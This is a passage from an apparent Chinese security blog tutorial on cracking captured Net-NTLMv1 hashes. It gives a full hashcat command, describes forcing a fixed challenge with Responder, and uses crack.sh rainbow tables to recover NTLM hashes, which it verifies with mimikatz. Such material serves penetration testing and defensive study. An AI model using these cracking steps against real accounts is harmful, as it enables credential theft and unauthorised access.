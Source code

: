 `username::hostname:LM response:NTLM response:challenge`

构造后的数据如下：

`log1::WIN-BH7SVRRDGVA:fec9b082080e34ba00000000000000000000000000000000:51acb9f9909f0e3c4254c332f5e302a38429c5490206bc04:8d2da0f5e21e20ee`

Hashcat参数如下：

```
hashcat -m 5500 log1::WIN-BH7SVRRDGVA:fec9b082080e34ba00000000000000000000000000000000:51acb9f9909f0e3c4254c332f5e302a38429c5490206bc04:8d2da0f5e21e20ee /tmp/password.list -o found.txt --force
```

说明：

-m： hash-type，5500对应NetNTLMv1，详细参数可查表：https://hashcat.net/wiki/doku.php?

-o： 输出文件，字典文件为/tmp/password.list

–force代表强制执行，测试系统不支持Intel OpenCL

成功破解出登录的明文密码，输出如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-23/2-5.png)

### 2、使用Responder等中间人攻击工具，控制Challenge为固定值`1122334455667788`

可借助彩虹表还原出口令的NTLM hash

例如获得了如下NetNTLMv1 hash:

`a::WIN-BH7SVRRDGVA:aebc606d66e80ea649198ed339bda8cd7872c227d6baf33a:aebc606d66e80ea649198ed339bda8cd7872c227d6baf33a:1122334455667788`

LM hash为`aebc606d66e80ea649198ed339bda8cd7872c227d6baf33a`

访问网站https://crack.sh/get-cracking/，使用免费的彩虹表进行破解

填入的格式如下：

`NTHASH:aebc606d66e80ea649198ed339bda8cd7872c227d6baf33a`

接着填入邮箱地址，提交后，在很短的时间(1分钟以内)会收到邮件，提示破解成功

参考资料：

https://crack.sh/netntlm/

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-23/3-1.png)

破解出的ntlm hash为`d25ecd13fddbb542d2e16da4f9e0333d`，用时45秒


使用mimikatz获得该用户的ntlm hash，对比结果相同，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-3-23/3-2.png)

## 0x04 Net-NTLMv1的利用思路
---
